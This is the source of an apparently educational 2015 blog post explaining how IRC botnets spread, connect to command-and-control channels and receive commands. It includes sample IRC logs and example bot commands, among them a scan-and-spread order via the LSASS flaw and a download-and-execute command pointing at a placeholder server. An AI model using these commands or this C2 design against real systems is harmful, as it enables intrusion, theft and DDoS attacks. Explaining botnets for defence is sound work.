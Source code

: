 ```yaml
---
layout: post
title:  "How Bots and Botnets work"
date:   2015-12-03 10:21:50
categories: anatomy
---
```


This section will in detail explain how bots spread and how they are controlled by their masters.

After successful exploitation, a bot uses Trivial File Transfer Protocol (TFTP), File Transfer Protocol (FTP), HyperText Transfer Protocol (HTTP), or CSend (an IRC extension to send files to other users, comparable to DCC) to transfer itself to the compromised host. The binary is started, and tries to connect to the hard-coded master IRC server. Often a dynamic DNS name is provided rather than a hard coded IP address, so the bot can be easily relocated. Some bots even remove themselves if the given master server is localhost or in a private subnet, since this indicates an unusual situations. Using a special crafted nickname like EU\|743634 or [UrX]-98439854 the bot tries to join the master's channel, sometimes using a password to keep strangers out of the channel. A typical communication that can be observed after a successful infection looks like:

{% highlight irc %}
<- :irc1.XXXXXX.XXX NOTICE AUTH :*** Looking up your hostname...
<- :irc1.XXXXXX.XXX NOTICE AUTH :*** Found your hostname
-> PASS secretserverpass
-> NICK [urX]-700159
-> USER mltfvt 0 0 :mltfvt
<- :irc1.XXXXXX.XXX NOTICE [urX]-700159 :*** If you are having problems connecting due to ping timeouts, please type /quote pong ED322722 or /raw pong ED322722 now.
<- PING :ED322722
-> PONG :ED322722
<- :irc1.XXXXXX.XXX 001 [urX]-700159 :Welcome to the irc1.XXXXXX.XXX IRC Network [urX]-700159!mltfvt@nicetry
<- :irc1.XXXXXX.XXX 002 [urX]-700159 :Your host is irc1.XXXXXX.XXX, running version Unreal3.2-beta19
<- :irc1.XXXXXX.XXX 003 [urX]-700159 :This server was created Sun Feb  8 18:58:31 2004
<- :irc1.XXXXXX.XXX 004 [urX]-700159 irc1.XXXXXX.XXX Unreal3.2-beta19 iowghraAsORTVSxNCWqBzvdHtGp lvhopsmntikrRcaqOALQbSeKVfMGCuzN
{% endhighlight %}

Afterwards, the server accepts the bot as a client and sends him RPL_ISUPPORT, RPL_MOTDSTART, RPL_MOTD, RPL_ENDOFMOTD or ERR_NOMOTD. Replies starting with RPL_ contain information for the client, for example RPL_ISUPPORT tells the client which features the server understands and RPL_MOTD indicates the Message Of The Day (MOTD). In contrast to this, ERR_NOMOTD is an error message if no MOTD is available. 

On RPL_ENDOFMOTD or ERR_NOMOTD, the bot will try to join his master's channel with the provided password:

{% highlight irc %}
-> JOIN #botnet channelpassword
-> MODE [urX]-700159 +x
{% endhighlight %}

The bot receives the topic of the channel and interprets it as a command:
{% highlight irc %}
<- :irc1.XXXXXX.XXX 332 [urX]-700159 #botnet :.advscan lsass 200 5 0 -r -s
<- :[urX]-700159!mltfvt@nicetry JOIN :#botnet
<- :irc1.XXXXXX.XXX MODE #botnet +smntuk channelpassword
{% endhighlight %}
Most botnets use a topic command like:

**1.**	`".advscan lsass 200 5 0 -r -s"`

**2.**	`".http.update http://<server>/~mugenxu/rBot.exe c:\msy32awds.exe 1"`

The first topic tells the bot to spread further with the help of the LSASS vulnerability[1]. 200 concurrent threads should scan with a delay of 5 seconds for an unlimited time (parameter 0). The scans should be random (parameter -r) and silent (parameter -s), thus avoiding too much traffic due to status reports. In contrast to this, the second example of a possible topic instructs the bot to download a binary from the web and execute it (parameter 1). And if the topic does not contain any instructions for the bot, then it does nothing but idling in the channel, awaiting commands. That is fundamental for most current bots: They do not spread if they are not told to spread in their master's channel.
Upon successful exploitation the bot will message the owner about it, if it has been advised to do so.

*Reference* [LSASS vulnerability](https://technet.microsoft.com/library/security/ms04-011)[1]

{% highlight irc %}
-> PRIVMSG #botnet :[lsass]: Exploiting IP: 200.124.175.XXX
-> PRIVMSG #botnet :[TFTP]: File transfer started to IP: 200.124.175.XXX (C:\WINDOWS\System32\NAV.exe).
{% endhighlight %}

Then the IRC server (also called IRC daemon, abbreviated IRCd) will provide the channels userlist. But most botnet owners have modified the IRCd to just send the channel operators to save traffic and disguise the number of bots in the channel.

{% highlight irc %}
<- :irc1.XXXXXX.XXX 353 [urX]-700159 @ #botnet :@JAH
<- :irc1.XXXXXX.XXX 366 [urX]-700159 #botnet :End of /NAMES list.
<- :irc1.XXXXXX.XXX NOTICE [urX]-700159 :BOTMOTD File not found
<- :[urX]-700159 MODE [urX]-700159 :+x
{% endhighlight %}

The controller of a botnet has to authenticate himself to take control over the bots. This authentication is done with the help of a command prefix and the "auth" command. The command prefix is used to login the master on the bots and afterwards he has to authenticate himself. For example,

{% highlight irc %}
.login leet0
.la plmp -s
{% endhighlight %}


are commands used on different bots to approve the controller. Again, the "-s" switch in the last example tells the bots to be silent when authenticating their master. Else they reply something like

{% highlight irc %}
[MAIN]: Password accepted.
[r[X]-Sh0[x]]: .:( Password Acepted ):. .
{% endhighlight %}

which can be a lot of traffic if you have 10,000 bots on your network. Once an attacker is authenticated, they can do whatever they want with the bots: Searching for sensitive information on all compromised machines and DCC-sending these files to another machine, DDoS-ing individuals or organizations, or enabling a keylogger and looking for PayPal or eBay account information. These are just a few possible commands, other options have been presented in the previous section. The IRC server that is used to connect all bots is in most cases a compromised box. This is probably because an attacker would not receive operator-rights on a normal chat network and thus has to set-up their own IRC server which offers more flexibility.

Two different IRC servers software implementation are commonly used to run a botnet: Unreal IRCd and ConferenceRoom:

* **Unreal IRCd[2]**

	It's cross-platform and can thus be used to easily link machines running Windows and Linux. The IRC server software is stripped down and modified to fit the botnet owner’s needs.
	Common modifications we have noticed are stripping "JOIN", "PART" and "QUIT" messages on channels to avoid unnecessary traffic. In addition, the messages "LUSERS" (information about number of connected clients) and "RPL_ISUPPORT" are removed to hide identity and botnet size. 
	Size comes in great value given that botnet with over 80k+ bots are used by cyber criminals for "professional" attacks probably being to most profitable of uses for botnets, also the riskier. These kind of networks can cause severe damage since they offer a lot of bandwidth and many targets for identity theft.
	
	*Reference*: [Unreal IRCd](http://www.unrealircd.com/)[2]

* **ConferenceRoom[3]**

	It's a commercial IRCd solution, but people who run botnets typically use a cracked version. ConferenceRoom offers the possibility of several thousand simultaneous connections, with nickname and channel registration, buddy lists and server to server linking.
	Since the people who run botnets often share the same motives (DDoS attacks or other crimes) every bot family has its own set of commands to implement the same goals. Agobot is really nice here: Just grep the source for RegisterCommand and get the whole command-list with a complete description of all features. Due to the lack of clean design, the whole SDBot family is harder to analyse. Often the command set is changed in various forks of the same bot and thus an automated analysis of the implemented commands is nearly impossible. 

	*Reference*: [ConferenceRoom](http://www.webmaster.com/) [3]